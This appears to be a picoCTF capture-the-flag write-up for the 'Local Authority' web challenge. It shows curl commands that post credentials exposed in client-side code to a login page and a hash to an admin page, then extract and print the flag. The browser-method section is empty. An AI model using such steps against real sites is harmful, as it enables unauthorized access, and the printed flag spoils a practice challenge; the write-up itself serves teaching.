


# [Local Authority [Web Exploitation] [100 Points]](https://play.picoctf.org/practice/challenge/278?category=1&originalEvent=70&page=1) #

## Description ##
Can you get the flag?
Go to this [website](http://saturn.picoctf.net:64293/) and see what you can discover.

## Hints ##
1. How is the password checked on this website?

## Solution ##

### OPTION 1: Via Web Browser ###
---

#### Step 1: Description ####

### OPTION 2: Via Kali Linux Terminal ###

`curl -d 'username=admin&password=strongPassword098765' http://saturn.picoctf.net:62954/login.php`

`curl -d 'hash=2196812e91c29df34f5e217cfd639881' http://saturn.picoctf.net:62954/admin.php`

`curl -d 'hash=2196812e91c29df34f5e217cfd639881' http://saturn.picoctf.net:62954/admin.php | grep -oE "picoCTF{.*}" | tee >(xsel -b)`

**Result**:

        picoCTF{j5_15_7r4n5p4r3n7_a8788e61}
